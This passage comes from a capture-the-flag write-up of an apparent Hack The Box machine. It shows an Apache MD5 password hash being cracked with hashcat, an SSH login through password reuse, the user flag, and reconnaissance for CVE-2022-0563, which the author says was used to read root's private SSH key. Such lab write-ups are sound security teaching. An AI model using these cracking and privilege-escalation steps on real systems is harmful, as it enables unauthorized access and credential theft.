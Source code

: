 Crack using `hashcat`:
```sh
$ echo -n '$apr1$4uK/teeQ$8gAFoYWl7ba5Vy7Bjy3nK/' | hashid -
Analyzing '$apr1$4uK/teeQ$8gAFoYWl7ba5Vy7Bjy3nK/'
[+] MD5(APR) [Hashcat Mode: 1600]
[+] Apache MD5 [Hashcat Mode: 1600]
[+] md5apr1 [Hashcat Mode: 1600]

$ hashcat --user -m 1600 --status -a 0 hash.txt /usr/share/wordlists/rockyou.txt
maximus-webadmin:$apr1$4uK/teeQ$8gAFoYWl7ba5Vy7Bjy3nK/:100%snoopy
```

Login as `maximus` via SSH leveraging password reuse and read the user flag!
```sh
$ sshpass -p '100%snoopy' ssh maximus@vanguard.htb 

[maximus@vanguard ~]$ ls -la
total 24
drwx------ 2 maximus      1002 4096 Jul  5 09:41 .
drwxr-xr-x 3 root    root      4096 Jul  5 06:26 ..
lrwxrwxrwx 1 maximus sysupdate    9 Jul  5 08:08 .bash_history -> /dev/null
-rw-r--r-- 1 maximus maximus     21 May 21 12:56 .bash_logout
-rw-r--r-- 1 maximus maximus     57 May 21 12:56 .bash_profile
-rw-r--r-- 1 maximus maximus    172 May 21 12:56 .bashrc
-rw-r----- 1 root    maximus     44 Jul  7 07:06 user.txt

[maximus@vanguard ~]$ cat user.txt 
HTB{h3y_l0ok_aT_mE_Im_a_bLu3pR1nT_sMUggL3r}
```

User Flag: `HTB{h3y_l0ok_aT_mE_Im_a_bLu3pR1nT_sMUggL3r}`

## CVE-2022-0563 chfn Privileged Read:
A flaw was found in the util-linux chfn and chsh utilities when compiled with Readline support. The Readline library uses an "INPUTRC" environment variable to get a path to the library config file. When the library cannot parse the specified file, it prints an error message containing data from the file. This flaw allows an unprivileged user to read root-owned files, potentially leading to privilege escalation. This flaw affects util-linux versions prior to 2.37.4.

```sh
[maximus@vanguard ~]$ pacman -Qi util-linux
Name            : util-linux
Version         : 2.37.3-2
...[snip]..

[maximus@vanguard ~]$ find / -type f -perm -4000 2>/dev/null | grep chfn
/usr/bin/chfn
[maximus@vanguard ~]$ ldd /usr/bin/chfn | grep readline
	libreadline.so.8 => /usr/lib/libreadline.so.8 (0x00007f0f9055c000)
```

I used the following reference to read root's private SSH key, then recreated it on my machine to login. [https://blog.trailofbits.com/2023/02/16/suid-logic-bug-linux-readline/](https://blog.trailofbits.com/2023/02/16/suid-logic-bug-linux-readline/)
